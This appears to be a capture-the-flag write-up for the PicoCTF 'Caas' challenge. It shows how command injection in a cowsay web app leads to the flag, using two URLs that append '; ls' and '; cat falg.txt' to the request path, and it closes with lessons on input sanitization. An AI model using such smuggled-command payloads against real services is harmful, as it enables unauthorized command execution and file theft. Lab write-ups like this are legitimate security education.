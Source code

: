 # PicoCTF Lab Walkthrough – Caas

## 📌 Challenge Info

* **Category**: Web Exploitation
* **Difficulty**: Easy

---

## 📝 Challenge Description

Exploit command injection in a cowsay application to retrieve the flag.

---

## 🔍 Initial Recon

* **Files provided**: None
* **Services/Ports**: Web app running cowsay
* **Hints given**: Command injection suspected

---

## 🛠️ Tools & Commands Used

| Tool / Command             | Purpose                        |
| -------------------------- | ------------------------------ |
| Browser / URL manipulation | Test command injection         |
| `ls`                       | List files on server           |
| `cat`                      | Read contents of the flag file |

---

## 🧠 Step-by-Step Solution

1. **Command Injection Testing**

   * Sent:

   ```
   https://caas.mars.picoctf.net/cowsay/hello;%20ls
   ```

   * Revealed the file: `falg.txt`

2. **Flag Retrieval**

   * Sent:

   ```
   https://caas.mars.picoctf.net/cowsay/hello;%20cat%20falg.txt
   ```

   * Successfully retrieved the flag.

---

## 🧾 Flag

picoCTF{\[flag]}

---

## 📚 Learning Outcomes

* Applications using system calls (like `exec`) are vulnerable to command injection if inputs aren’t sanitized.
* Even simple user input can be leveraged to execute arbitrary commands.
* Always validate and sanitize inputs when executing shell commands.

---
